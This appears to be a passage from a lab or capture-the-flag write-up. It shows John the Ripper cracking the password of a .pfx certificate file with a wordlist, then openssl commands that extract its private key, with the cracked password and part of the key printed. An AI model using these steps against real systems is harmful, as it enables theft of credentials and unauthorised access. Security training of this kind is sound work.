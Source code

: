 ### JOHN
```bash
$john pfx.hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx [PKCS12 PBE (.pfx, .p12) (SHA-1 to SHA-512) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:00:49 DONE (2023-01-26 23:00) 0.02010g/s 64972p/s 64972c/s 64972C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed

 $john --show pfx.hash 
legacyy_dev_auth.pfx:thuglegacy:::::legacyy_dev_auth.pfx 

1 password hash cracked, 0 left
```

### EXTRACTING KEYS

Using `thuglegacy` as password we can now extract `key` and `cert`.
```
$openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key -nodes 
Enter Import Password:

$openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
```

```
$cat legacyy_dev_auth.key
Bag Attributes
    Microsoft Local Key set: <No Values>
    localKeyID: 01 00 00 00
    friendlyName: te-4a534157-c8f1-4724-8db6-ed12f25c2a9b
    Microsoft CSP Name: Microsoft Software Key Storage Provider
Key Attributes
    X509v3 Key Usage: 90
-----BEGIN PRIVATE KEY-----
MIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQClVgejYhZHHuLz
TSOtYXHOi56zSocr9om854YDu/6qHBa4Nf8xFP6INNBNlYWvAxCvKM8aQsHpv3to
pwpQ+YbRZDu1NxyhvfNNTRXjdFQV9nIiKkowOt6gG2F+9O5gVF4PAnHPm+YYPwsb
oRkYV8QOpzIi6NMZgDCJrgISWZmUHqThybFW/7POme1gs6tiN1XFoPu1zNOYaIL3
dtZaazXcLw6IpTJRPJAWGttqyFommYrJqCzCSaWu9jG0p1hKK7mk6wvBSR8QfHW2
qX9+NbLKegCt+/jAa6u2V9lu+K3MC2NaSzOoIi5HLMjnrujRoCx3v6ZXL0KPCFzD
MEqLFJHxAgMBAAECggEAc1JeYYe5IkJY6nuTtwuQ5hBc0ZHaVr/PswOKZnBqYRzW
fAatyP5ry3WLFZKFfF0W9hXw3tBRkUkOOyDIAVMKxmKzguK+BdMIMZLjAZPSUr9j
PJFizeFCB0sR5gvReT9fm/iIidaj16WhidQEPQZ6qf3U6qSbGd5f/KhyqXn1tWnL
GNdwA0ZBYBRaURBOqEIFmpHbuWZCdis20CvzsLB+Q8LClVz4UkmPX1RTFnHTxJW0
Aos+JHMBRuLw57878BCdjL6DYYhdR4kiLlxLVbyXrP+4w8dOurRgxdYQ6iyL4UmU
Ifvrqu8aUdTykJOVv6wWaw5xxH8A31nl/hWt50vEQQKBgQDYcwQvXaezwxnzu+zJ
7BtdnN6DJVthEQ+9jquVUbZWlAI/g2MKtkKkkD9rWZAK6u3LwGmDDCUrcHQBD0h7
tykwN9JTJhuXkkiS1eS3BiAumMrnKFM+wPodXi1+4wJk3YTWKPKLXo71KbLo+5NJ
2LUmvvPDyITQjsoZoGxLDZvLFwKBgQDDjA7YHQ+S3wYk+11q9M5iRR9bBXSbUZja
8LVecW5FDH4iTqWg7xq0uYnLZ01mIswiil53+5Rch5opDzFSaHeS2XNPf/Y//TnV
1+gIb3AICcTAb4bAngau5zm6VSNpYXUjThvrLv3poXezFtCWLEBKrWOxWRP4JegI
ZnD1BfmQNwKBgEJYPtgl5Nl829+Roqrh7CFti+a29KN0D1cS/BTwzusKwwWkyB7o
btTyQf4tnbE7AViKycyZVGtUNLp+bME/Cyj0c0t5SsvS0tvvJAPVpNejjc381kdN
71xBGcDi5ED2hVj/hBikCz2qYmR3eFYSTrRpo15HgC5NFjV0rrzyluZRAoGAL7s3
QF9Plt0jhdFpixr4aZpPvgsF3Ie9VOveiZAMh4Q2Ia+q1C6pCSYk0WaEyQKDa4b0
6jqZi0B6S71un5vqXAkCEYy9kf8AqAcMl0qEQSIJSaOvc8LfBMBiIe54N1fXnOeK
/ww4ZFfKfQd7oLxqcRADvp1st2yhR7OhrN1pfl8CgYEAsJNjb8LdoSZKJZc0/F/r
```